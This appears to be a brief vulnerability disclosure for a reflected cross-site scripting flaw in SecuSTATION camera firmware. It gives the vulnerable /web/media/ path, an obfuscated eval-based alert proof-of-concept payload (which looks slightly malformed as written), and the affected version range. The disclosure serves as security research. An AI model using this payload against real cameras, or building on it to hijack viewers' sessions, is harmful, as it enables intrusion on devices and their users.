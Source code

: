 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://github.com/kklzzcun/Camera/tree/main/assets/20241217100348501.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100507713.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100543071.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































